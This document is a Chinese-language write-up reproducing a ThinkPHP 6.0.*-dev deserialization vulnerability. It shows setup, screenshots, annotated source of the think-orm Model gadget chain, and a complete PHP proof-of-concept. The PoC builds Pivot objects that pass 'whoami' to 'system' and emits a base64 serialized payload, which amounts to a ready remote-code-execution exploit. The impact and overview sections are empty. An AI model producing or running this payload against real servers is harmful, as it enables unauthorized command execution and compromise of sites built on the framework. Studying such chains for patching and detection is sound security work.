 Thinkphp 6.0.\*-dev 反序列化漏洞
================================

一、漏洞简介
------------

所有Thinkphp版本下载链接

<https://packagist.org/packages/topthink/framework>

二、漏洞影响
------------

三、复现过程
------------

### 环境搭建

    composer create-project topthink/think=6.0.*-dev v6.0

### poc演示截图

![](./resource/Thinkphp6.0.*-dev反序列化漏洞/media/rId27.png)

### 调用链

![](./resource/Thinkphp6.0.*-dev反序列化漏洞/media/rId29.png)

### 单步调试

    //vendor\topthink\think-orm\src\Model.php
    public function __destruct()
    {
        if ($this->lazySave) {  //$this->lazySave可控
            $this->save();
        }
    }
    //vendor\topthink\think-orm\src\Model.php
    public function save(array $data = [], string $sequence = null): bool
    {
        // 数据对象赋值
        $this->setAttrs($data);

        if ($this->isEmpty() || false === $this->trigger('BeforeWrite')) {
           return false;
        }

        $result = $this->exists ? $this->updateData() : $this->insertData($sequence); //this->exists可控

        if (false === $result) {
           return false;
        }
    //vendor\topthink\think-orm\src\Model.php
    public function isEmpty(): bool
    {
        return empty($this->data);    //可控
    }
    protected function trigger(string $event): bool
    {
        if (!$this->withEvent) {       //可控
            return true;
        }
        ...
    }
    protected function updateData(): bool
    {
        // 事件回调
        if (false === $this->trigger('BeforeUpdate')) {   //可控
           return false;
        }

        $this->checkData();

        // 获取有更新的数据
        $data = $this->getChangedData();  

        if (empty($data)) {         //$data可控
           // 关联更新
           if (!empty($this->relationWrite)) {
             $this->autoRelationUpdate();
           }

           return true;
        }

        if ($this->autoWriteTimestamp && $this->updateTime && !isset($data[$this->updateTime])) {
           // 自动写入更新时间
           $data[$this->updateTime]       = $this->autoWriteTimestamp($this->updateTime);
           $this->data[$this->updateTime] = $data[$this->updateTime];
        }

        // 检查允许字段
        $allowFields = $this->checkAllowFields();
    public function getChangedData(): array
    {
        $data = $this->force ? $this->data : array_udiff_assoc($this->data, $this->origin, function ($a, $b) {
           if ((empty($a) || empty($b)) && $a !== $b) {
             return 1;
           }
        //$this->force可控
           return is_object($a) || $a != $b ? 1 : 0;
        });

        // 只读字段不允许更新
        foreach ($this->readonly as $key => $field) {
           if (isset($data[$field])) {
             unset($data[$field]);
           }
        }

        return $data;
    }
    protected function checkAllowFields(): array
    {
        // 检测字段
        if (empty($this->field)) {   //$this->field可控
           if (!empty($this->schema)) {  //$this->schema可控
             $this->field = array_keys(array_merge($this->schema, $this->jsonType));
           } else {
             $query = $this->db();
             $table = $this->table ? $this->table . $this->suffix : $query->getTable();
    public function db($scope = []): Query
    {
        /** @var Query $query */
        $query = self::$db->connect($this->connection)   //$this->connection可控
           ->name($this->name . $this->suffix)   //$this->suffix可控，采用拼接，调用_toString
           ->pk($this->pk);

后面的链跟之前的一样，这里就不分析了

![](./resource/Thinkphp6.0.*-dev反序列化漏洞/media/rId31.png)

### poc v6.0.\*-dev

    <?php
    /**
     * Created by PhpStorm.
     * User: wh1t3P1g
     */

    namespace think\model\concern {
        trait Conversion{
            protected $visible;
        }
        trait RelationShip{
            private $relation;
        }
        trait Attribute{
            private $withAttr;
            private $data;
            protected $type;
        }
        trait ModelEvent{
            protected $withEvent;
        }
    }

    namespace think {
        abstract class Model{
            use model\concern\RelationShip;
            use model\concern\Conversion;
            use model\concern\Attribute;
            use model\concern\ModelEvent;
            private $lazySave;
            private $exists;
            private $force;
            protected $connection;
            protected $suffix;
            function __construct($obj)
            {
                if($obj == null){
                    $this->data = array("wh1t3p1g"=>"whoami");
                    $this->relation = array("wh1t3p1g"=>[]);
                    $this->visible= array("wh1t3p1g"=>[]);
                    $this->withAttr = array("wh1t3p1g"=>"system");
                }else{
                    $this->lazySave = true;
                    $this->withEvent = false;
                    $this->exists = true;
                    $this->force = true;
                    $this->data = array("wh1t3p1g"=>[]);
                    $this->connection = "mysql";
                    $this->suffix = $obj;
                }
            }
        }
    }


    namespace think\model {
        class Pivot extends \think\Model{
            function __construct($obj)
            {
                parent::__construct($obj);
            }
        }
    }


    namespace {
        $pivot1 = new \think\model\Pivot(null);
        $pivot2 = new \think\model\Pivot($pivot1);
        echo base64_encode(serialize($pivot2));
